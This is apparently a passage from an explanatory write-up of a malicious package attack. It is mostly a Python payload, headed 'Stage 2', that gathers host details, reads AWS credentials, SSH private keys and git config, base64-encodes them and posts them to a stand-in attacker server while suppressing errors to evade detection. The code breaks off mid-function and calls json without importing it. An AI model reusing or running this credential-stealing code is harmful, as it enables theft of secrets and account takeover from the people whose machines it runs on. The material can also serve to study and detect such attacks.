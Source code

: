 #### Stage 2: Payload Execution

The malicious code would then execute in the background:

python

```python
import os
import sys
import platform
import socket
import threading
import base64
import requests

def collect_system_data():
    data = {
        "hostname": socket.gethostname(),
        "system": platform.system(),
        "release": platform.release(),
        "version": platform.version(),
        "python_version": sys.version,
        "username": os.getlogin(),
    }
    return data

def collect_sensitive_files():
    sensitive_paths = [
        os.path.expanduser("~/.aws/credentials"),
        os.path.expanduser("~/.ssh/id_rsa"),
        os.path.expanduser("~/.gitconfig"),
        # Additional paths omitted for brevity
    ]
    
    file_data = {}
    for path in sensitive_paths:
        if os.path.exists(path):
            try:
                with open(path, 'r') as f:
                    file_data[path] = base64.b64encode(f.read().encode()).decode()
            except:
                pass
    return file_data

def exfiltrate_data(data):
    try:
        # Encode data and exfiltrate to attacker's server
        encoded = base64.b64encode(json.dumps(data).encode()).decode()
        requests.post(
            "https://collector.malicious-domain.com/api/collect",
            headers={"Content-Type": "application/json"},
            json={"data": encoded},
            timeout=3
        )
    except:
        # Silent failure to avoid detection
        pass

# Execute payload in background thread to avoid blocking
def execute_payload():
    system_data = collect_system_data()
    file_data = collect_sensitive_files()
    
    data = {
        "system": system_data,
```